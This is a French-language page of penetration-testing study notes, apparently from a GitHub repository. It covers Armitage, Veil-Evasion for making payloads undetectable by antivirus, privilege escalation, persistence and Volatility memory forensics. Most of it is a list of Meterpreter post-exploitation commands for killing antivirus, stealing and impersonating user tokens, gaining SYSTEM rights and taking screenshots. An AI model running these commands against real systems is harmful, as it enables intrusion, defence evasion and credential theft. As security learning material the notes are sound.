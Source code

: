 ## Exploitation Armitage

/usr/share/armitage/teamserver ---> utiliser une exploitation partagée
Armitage utilise des script cortana

Veil-evasion est un script qui permet de faire des antivirus
indétectables.

# Elevation de privilège

linux: root
Windows : Administrateur

- Elévation verticale : obtenir le privilège le plus avancé
- Elévation horizontal: obtenir un autre compte avec le même privilège

-> exploit exploit-db.com

# Maintient de l'accès

une fois un accès obtenu, avec meterpretter par exemple,
il suffit d'utiliser un autre exploit (par exemple de maintient)

# Autres techniques de post-exploitation

meterpreter> shell : lance un cmd windows

Volatility Fundation Framework : outil d'analyse de mémoire (forensic)
volatility imageinfo -f [dump] : informations sur le dump
volatility hivelist -f [dump] : infos fichiers windows avec des hash
volatility hashdump -f [dump]

- migrer processus meterpreter vers iexplorer.exe: 
meterpreter> ps : lister les processus
meterpreter> migrate [pid]
meterpreter> run checkvm : vérifie si on est dans une machine virtuel
meterpreter> run getcountermeasure: informations de contre mesures sur la cible
meterpreter> run killav: delete les contremesures de la cible (antivirus)
meterpreter> run scraper: récupérer un dump de la machine pour travailler dessus sans y être
connecté
meterpreter> run winenum: information machine cible avec plusieurs commances (wmic etc.)
meterpreter> use espia && screenshot : prend un screenshot de la machine

meterpreter> run vnc : remote desktop vnc


meterpreter> use incognito && list_tokens : récupère les tokens des utilisateurs
meterpreter> impersonate_token [token]: change d'utilisateur grâce au token (élévation de priviliège)
meterpreter> getsystem : récupère directement les droits systems

Les informations trouvées se trouvent dans ~/.msf4/logs/scripts/winenum/..../
